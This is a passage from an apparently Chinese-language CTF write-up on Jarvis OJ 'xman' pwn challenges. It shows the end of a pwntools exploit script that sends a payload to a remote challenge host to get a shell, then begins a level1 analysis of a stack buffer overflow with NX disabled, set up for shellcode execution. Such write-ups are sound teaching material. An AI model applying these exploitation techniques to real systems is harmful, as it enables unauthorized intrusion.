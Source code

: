 ``` python
    
    sleep(0.5)
    io.sendline(payload)
    # get shell
    io.interactive()

if __name__ == '__main__':
    target_elf = './level0'
    #target_libc = './libc-2.23.so'

    target_host = 'pwn2.jarvisoj.com'
    target_port = '9881'

    context.log_level = 'debug'
    #context.terminal = ['tmux', 'splitw', '-v']

    elf = ELF(target_elf)
    #libc = ELF(target_libc)

    LOCAL = True
    LOCAL = False

    if LOCAL:
        #io = process(target_elf, env={'LD_PRELOAD':target_libc})
        io = process(target_elf)
        gdb.attach(io, 
        '''b *0x00000000004005BF
        b *0x00000000004005A6''')
    else:
        io = remote(target_host, target_port)
    
    exploit2()
```


### xman-level 1

用IDA查看，read函数明显的栈溢出，缓冲区为0x88,而最大可读0x100字节，所以可以溢出
``` c
char buf; // [esp+0h] [ebp-88h]
printf("What's this:%p?\n", &buf); //此处泄漏出buf的地址
return read(0, &buf, 0x100u); //溢出点
```
这里同时printf泄漏出了buf的地址，这个有用。

同时使用checksec查看程序的保护：
``` bash
sandy@ubuntu:~/Desktop/xman$ checksec level1 
[*] '/home/trump/Desktop/xman/level1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
程序没有开启任何保护，可以直接调到shellcode中进行执行。
